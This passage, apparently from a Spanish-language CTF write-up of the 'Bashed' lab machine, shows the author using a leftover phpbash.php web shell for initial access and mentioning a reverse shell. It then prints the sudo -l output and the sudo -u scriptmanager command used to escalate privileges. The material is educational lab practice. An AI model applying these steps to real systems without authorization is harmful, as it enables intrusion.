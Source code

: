 ![navegador3](https://user-images.githubusercontent.com/67548295/129732917-a64d4603-7a32-452a-adc4-cf9a63186bf8.png)

¡Que sopresa! Se ve que el usuario que administra el blog ha estado probando la utilidad de la que hablaba en un post y se ha olvidado de borrarla.

Accedo a `phpbash.php` para ver si era la utilidad realmente y...

![navegador4](https://user-images.githubusercontent.com/67548295/129733409-bd857b3a-1d58-4068-a448-32d33c06ea10.png)

Vaya pues sí, es el recurso.

Pruebo a obtener acceso al sistema mediante un servidor en python que aloje una reverse shell y lo conseguimos:

![navegador5](https://user-images.githubusercontent.com/67548295/129738274-f123c836-c7e4-4cc8-a61b-ad4e6c43d255.png)

Podemos ver la flag de user como usuario `www-data` en /home/arrexel/user.txt

```bash
bash-4.3$ cat /home/arrexel/user.txt

2c2XXXXXXXXXXXXXXXXXXXXXXc1
```

# Root.txt

Empiezo enumerando el sistema como usuario `www-data` y me percato de que puedo ejecutar cualquier comando como el usuario `scriptmanager`:

```bash
bash-4.3$ whoami 
www-data
bash-4.3$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
```

| Parámetro | Acción |
|:---------:|:------:|
| `-l` | listamos los comandos permitidos y prohibidos para ejecutar como otro usuario |

Con esto es muy facil convertirse en este usuario, basta con hacer lo siguiente:

```bash
bash-4.3$ sudo -u scriptmanager /bin/bash
bash-4.3$ whoami
scriptmanager
```

| Parámetro | Acción |
|:---------:|:------:|
| `-u [comando]` | Especificamos el usuario con el cual se ejecutará el comando|
